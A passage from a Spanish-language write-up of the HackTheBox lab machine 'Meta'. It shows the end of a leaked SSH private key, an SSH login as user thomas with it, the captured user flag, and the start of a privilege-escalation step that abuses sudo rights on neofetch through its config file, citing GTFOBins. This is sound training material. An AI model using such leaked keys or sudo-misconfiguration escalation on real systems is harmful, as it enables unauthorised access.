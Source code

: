```text
JfYAm4xkSmOTuEIvcXi6xkS/h67R/GT38zFaGnCHh13/zW0cZDnw5ZNbZ60VfueTcUn9Y3
8ZdWKtVUBsvb23Mu+wMyv87/Ju+GPuXwUi6mOcMy+iOBoFCLYkKaLJzUFngOg7664dUagx
I8qMpD6SQhkD8NWgcwU1DjFfUUdvRv5TnaOhmdNhH2jnr5HaUAAADBAN16q2wajrRH59vw
o2PFddXTIGLZj3HXn9U5W84AIetwxMFs27zvnNYFTd8YqSwBQzXTniwId4KOEmx7rnECoT
qmtSsqzxiKMLarkVJ+4aVELCRutaJPhpRC1nOL9HDKysDTlWNSr8fq2LiYwIku7caFosFM
N54zxGRo5NwbYOAxgFhRJh9DTmhFHJxSnx/6hiCWneRKpG4RCr80fFJMvbTod919eXD0GS
1xsBQdieqiJ66NOalf6uQ6STRxu6A3bwAAAMEA1Hjetdy+Zf0xZTkqmnF4yODqpAIMG9Um
j3Tcjs49usGlHbZb5yhySnucJU0vGpRiKBMqPeysaqGC47Ju/qSlyHnUz2yRPu+kvjFw19
keAmlMNeuMqgBO0guskmU25GX4O5Umt/IHqFHw99mcTGc/veEWIb8PUNV8p/sNaWUckEu9
M4ofDQ3csqhrNLlvA68QRPMaZ9bFgYjhB1A1pGxOmu9Do+LNu0qr2/GBcCvYY2kI4GFINe
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=
-----END OPENSSH PRIVATE KEY-----

```

La guardamos en nuestra máquina, le damos permisos con **`chmod 600 metakey`** y nos conectamos:

```console
p3ntest1ng:~$ ssh -i metakey thomas@artcorp.htb
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
thomas@meta:~$ ls
user.txt
thomas@meta:~$ cat user.txt 
e511271f887e1a7a3443c8811e764d14
```

## Escalada de Privilegios

Lo primero que siempre compruebo son los permisos a nivel de sudo con **`sudo -l`**

```console
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

Vemos que el usuario **`thomas`** puede ejecutar la herramienta **`neofetch`** con privilegios de **`root`**
Realizando una búsqueda en [GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/) para esta herramienta, encontramos información muy interesante.
El archivo de configuración de esta herramienta se encuentra por defecto en: **~/.config/neofetch/config.conf`**
